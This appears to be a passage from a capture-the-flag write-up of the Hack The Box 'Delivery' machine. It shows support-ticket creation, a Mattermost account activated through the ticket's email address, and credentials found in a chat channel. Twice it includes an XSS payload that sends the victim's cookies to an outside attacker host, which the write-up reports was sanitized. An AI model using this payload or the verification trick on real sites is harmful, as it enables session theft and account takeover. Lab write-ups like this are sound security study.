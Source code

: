 lets create a ticket
```
name: aaaaaaa
email: a@a.a
content: <script type=“text/javascript”>document.location=“http://10.10.14.147:8000/“+document.cookie;</script>

Ticket id: 8054180
Email: 8054180@delivery.htb
```

I created the ticket but it was not allowing to check the ticket i created, throwing an: "Access denied" message...  <br>

Lets use a @delivery.htb email, to check if that is the problem
```
name: www
email: w@delivery.htb
content: <script type=“text/javascript”>document.location=“http://10.10.14.147:8000/“+document.cookie;</script>

Ticket id: 9911552
Email: 9911552@delivery.htb
```

Now it is possible to check the ticket!! <br>

The content provided is sanitized (it shows empty) so XSS might be correctly handled in the version being used... <br>

Lets craft an email with <b> swaks </b> and check what happens 
```
To: 9911552@delivery.htb
```

Well, connection refused... The port (25) is closed, duh<br>

There was the Mattermost page, which allowed to create an account and waited to activation... Since outside "world" emails do not work, lets try to create an account with the email that we need to contact for the ticket <br>

```
email:9911552@delivery.htb
password: !wW1234567 
```

And voila, in the ticket appears the registration email (to activate) <br>
```
---- Registration Successful ---- Please activate your email by going to: http://delivery.htb:8065/do_verify_email?token=sjkhpy3ani137orc6nydp344q5tzd1wcs5f6g9kycmnsiduakuyutkfotj96n6g9&email=9911552%40delivery.htb ) --------------------- You can sign in from: --------------------- Mattermost lets you share messages and files from your PC or phone, with instant search and archiving. For the best experience, download the apps for PC, Mac, iOS and Android from: https://mattermost.com/download/#mattermostApps ( https://mattermost.com/download/#mattermostApps
```

Logging in to the platform, there is a channel with interesting messages
```
Please update theme to the OSTicket before we go live.  Credentials to the server are maildeliverer:Youve_G0t_Mail! 
Also please create a program to help us stop re-using the same passwords everywhere.... Especially those that are a variant of "PleaseSubscribe!"

PleaseSubscribe! may not be in RockYou but if any hacker manages to get our hashes, they can use hashcat rules to easily crack all variations of common words or phrases.
```
